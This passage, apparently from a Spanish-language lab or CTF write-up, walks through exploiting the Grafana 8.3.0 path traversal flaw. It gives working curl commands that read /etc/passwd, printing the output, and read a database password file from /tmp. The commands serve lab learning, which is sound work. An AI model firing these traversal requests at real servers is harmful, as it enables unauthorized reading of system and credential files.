 <br>

<h2 id="PathT">Aplicando Path Traversal a Grafana 8.3.0 y Escalando Privilegios con Contraseña Almacenada en Base de Datos de KeePass</h2>

Si recordamos, tenemos la versión que están ocupando de **Grafana** siendo la **8.3.0**.

Esta versión es vulnerable a **Path Traversal**, pero ¿qué es un **Path Traversal**?

| **Path Traversal** |
|:-----------:|
| *Un Path Traversal (o Directory Traversal) es una vulnerabilidad que permite a un atacante acceder a archivos y directorios fuera del directorio raíz permitido en un servidor. Esto ocurre cuando una aplicación no valida correctamente las rutas de los archivos que maneja.* |

<br>

Aquí puedes ver un Exploit creado en **Go**, pero lo que nos interesa, es la forma en la que aplica el **Path Traversal con curl**:
* <a href="https://github.com/taythebot/CVE-2021-43798" target="_blank">Repositorio de taythebot: CVE-2021-43798</a>

Apliquemos el **Path Traversal con curl**:
```bash
curl --path-as-is http://localhost:8080/public/plugins/alertlist/../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```
Funciona.

Recordando un poco, al descubrir y ver un archivo de **PHP** de la página principal, nos indica que hay un archivo de texto dentro del directorio `/tmp` que contiene la contraseña de una base de datos.

Supongamos que dicho archivo, está dentro del contenedor.

Veamos si existe:
```bash
curl --path-as-is http://localhost:8080/public/plugins/alertlist/../../../../../../../../tmp/database_pass.txt
supermegas...
```
Tenemos la contraseña.
